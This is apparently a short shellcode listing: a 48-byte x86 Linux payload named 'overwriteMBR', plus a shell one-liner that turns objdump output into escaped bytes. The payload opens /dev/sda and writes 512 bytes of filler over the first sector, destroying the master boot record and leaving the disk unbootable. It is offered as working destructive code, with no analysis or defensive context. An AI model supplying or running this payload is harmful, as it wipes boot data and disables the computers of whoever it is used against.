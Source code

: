 \x31\xc0\x50\x68\x2f\x73\x64\x61\x68\x2f\x64\x65\x76\x89\xe3\xb0\x05\xb1\x02\x31\xc9\xcd\x80\x89\xc3\x31\xc0\xb1\x80\x68\x41\x48\x41\x48\xe2\xf9\xb0\x04\x89\xe1\x31\xd2\x42\xc1\xe2\x09\xcd\x80

size 48 bytes.

for i in $(objdump -d ./overwriteMBR -M intel | grep "^ " |cut -f2); do echo -n '\x'$i; done;echo

